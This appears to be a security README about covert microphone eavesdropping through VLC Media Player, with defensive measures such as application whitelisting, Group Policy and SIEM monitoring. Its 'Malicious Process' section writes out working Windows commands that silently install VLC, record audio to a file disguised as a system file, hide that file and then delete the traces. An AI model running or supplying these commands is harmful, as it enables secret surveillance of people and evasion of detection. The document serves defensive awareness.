 README.MD: Preventing Unauthorized Eavesdropping Using VLC Media Player
=======================================================================

Overview
--------

This document outlines a malicious process that can be used to eavesdrop on conversations using the microphone of a workstation. It also provides recommendations for organizations to prevent such unauthorized activities by blocking VLC Media Player or implementing log and event monitoring as deterrent measures.

Malicious Process
-----------------

The following commands demonstrate how an attacker can use VLC Media Player to record audio from a workstation's microphone and hide the recorded file:

1.  This command installs VLC Media Player silently, waits for 40 seconds, and then deletes the installer and any desktop shortcuts created.`  C:\vlcsetup.exe /S & ping 0.0.0.0 -n 40 >/nul & del /F /Q "%systemdrive%\Users\Public\Desktop\VLC media player\*\*" & del C:\vlcsetup.exe`
    
2. This command starts VLC in a single instance mode, captures audio from the default audio device, and saves the recording to a file named **hibernate** in the root of the C drive. The hibernate file mentioned in the commands is not a standard system file but rather a custom-named file used by the attacker to store the recorded audio. The name hibernate is chosen to make the file less conspicuous, as it might be mistaken for a system file related to hibernation. `C:\Progra~1\VideoLAN\VLC\vlc.exe --one-instance dshow:// :dshow-vdev=none :dshow-adev :sout=#transcode{vcodec=h264,scale=Auto,acodec=mpga,ab=128,channels=2,samplerate=44100}:duplicate{dst=std{access=file,mux="ogg",dst="C:\hibernate"}}`
    
3.  This command sets the **hibernate** file as hidden and system, making it less likely to be noticed by the user. `attrib +h +s C:\hibernate`
    
4.  This command deletes the **hibernate** file and forcefully terminates any Command Prompt processes. `taskkill /f /im vlc\* & ping 0.0.0.0 -n 5 >/nul & attrib -h -s C:\hibernate; del C:\hibernate & taskkill /f /im cmd\*`
     
    

Prevention Measures
-------------------

To prevent unauthorized eavesdropping using VLC Media Player, organizations can implement the following measures:

### 1\. Block VLC Media Player

*   **Application Whitelisting:** Implement application whitelisting to prevent unauthorized software, including VLC Media Player, from being installed or executed.
    
*   **Group Policy:** Use Group Policy Objects (GPO) to block the installation and execution of VLC Media Player on all workstations.
    

### 2\. Log and Event Monitoring

*   **Audit Logs:** Enable and monitor audit logs for any suspicious activities, such as the creation and deletion of files, and the execution of unauthorized processes.
    
*   **Event Monitoring:** Implement a Security Information and Event Management (SIEM) system to monitor and analyze events in real-time, allowing for quick detection and response to any unauthorized activities.
    

### 3\. User Education

*   **Training:** Educate users on the importance of not installing unauthorized software and the risks associated with phishing attacks and malicious downloads.
    
*   **Reporting:** Encourage users to report any suspicious activities or emails to the IT department.
    

Conclusion
----------

The malicious process outlined in this document highlights the potential security risks associated with unauthorized use of software like VLC Media Player. By implementing the prevention measures described, organizations can significantly reduce the likelihood of unauthorized eavesdropping and protect their sensitive information.

Regularly reviewing and updating security policies, procedures, and technologies is essential to maintain a strong security posture in the face of evolving threats.

**Disclaimer:** This document is intended for educational and informational purposes only. The misuse of the information provided can result in criminal charges brought against the persons in question. The authors will not be held responsible in the event any criminal charges be brought against any individuals misusing the information in this document to break the law.